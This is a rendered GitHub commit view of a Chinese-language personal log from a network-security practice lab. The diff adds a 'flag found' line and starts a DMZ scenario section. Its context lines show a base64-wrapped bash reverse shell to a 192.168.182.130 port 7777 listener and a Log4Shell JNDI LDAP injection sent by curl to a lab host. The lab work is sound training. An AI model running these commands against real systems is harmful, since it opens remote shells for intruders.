

Before and after one commit to lihan3238/Network-Security-Comprehensive-Practice, a Markdown page: 0_lihan3238/个人开发日志.md, 2 parts joined by grey strips. Shown: that part at 88% size. Drawn GitHub-style; pictures changed too: img/lihan3238_doc/DMZ_1.png (added), img/lihan3238_doc/test_flag_1.png (added); blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs: 临时更新

```diff
--- a/0_lihan3238/个人开发日志.md
+++ b/0_lihan3238/个人开发日志.md
@@ -394,6 +394,10 @@ SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1" && BASE64_PAYLOAD=
 
 [![reverse_shell_test_2](https://asciinema.org/a/5IEW49VBaINFUfVFmyMJdkkgM.svg)](https://asciinema.org/a/5IEW49VBaINFUfVFmyMJdkkgM)
 
+最终找到 `flag`：
+
+![test_flag_1](../img/lihan3238_doc/test_flag_1.png)
+
 ##### 蓝队-漏洞利用流量检测实战
 
 - 面向网络流量的深度包检测 - jasonish/suricata:6.0.4
@@ -488,6 +492,14 @@ curl "http://192.168.182.129:51360/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.1
 
 ### 日志
 
+#### DMZ 场景初始化
+
+1. 启动 DMZ 场景
+
+![DMZ_1](../img/lihan3238_doc/DMZ_1.png)
+
+2.
+
 ### 问题
 
 ### 参考
```
